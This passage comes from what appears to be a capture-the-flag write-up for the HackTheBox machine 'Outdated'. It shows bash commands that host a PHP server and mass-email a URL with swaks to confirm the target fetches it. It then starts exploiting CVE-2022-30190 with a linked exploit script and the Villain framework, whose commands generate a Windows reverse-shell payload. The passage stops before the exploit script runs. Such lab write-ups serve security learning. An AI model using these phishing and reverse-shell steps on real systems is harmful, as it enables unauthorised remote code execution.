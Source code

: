 ### Checking Exploitability

We can verify that the url is opened by setting up a web server and sending the URL to _itsupport@outdated.htb_. To do this, we can use a CLI tool called [swaks](https://github.com/jetmore/swaks).

```bash
# bryan@attacker
php -S "$lhost:80"
```
{:.nolineno}
```bash
# bryan@attacker
for i in {1..3}
    do swaks \
      --server "$rhost" \
      --to "itsupport@outdated.htb" \
      --from "email@mail.com" \
      --body "http://$lhost/"
    done
```
{: .nolineno}

After we send a few emails and wait a couple minutes, we get a request to our web server from the target.
>
```
[Sat Nov  5 04:13:23 2022] 10.10.11.175:49885 Accepted
[Sat Nov  5 04:13:23 2022] 10.10.11.175:49885 [404]: GET / - No such file or directory
[Sat Nov  5 04:13:23 2022] 10.10.11.175:49885 Closing
```

> If you are not receiving any requests after a few minutes, go ahead and reset the machine because this feature can be inconsistent at times.
{: .prompt-warning}

### Exploitation

At this point, we can try to exploit CVE-2022-30190 using a custom exploit script from [here](https://gist.github.com/bryanmcnulty/a02d96eb10b3beb4ea35115993b1981a) along with [Villain](https://github.com/t3l3machus/Villain).

First we start the villain server and generate our payload.

```bash
# bryan@attacker
villain -x 8844
```
{:.nolineno}
>
```bash
# bryan@attacker (Villain)
generate os=windows lhost=tun0
```
{:.nolineno}

Then we run the exploit server script with the generated payload.
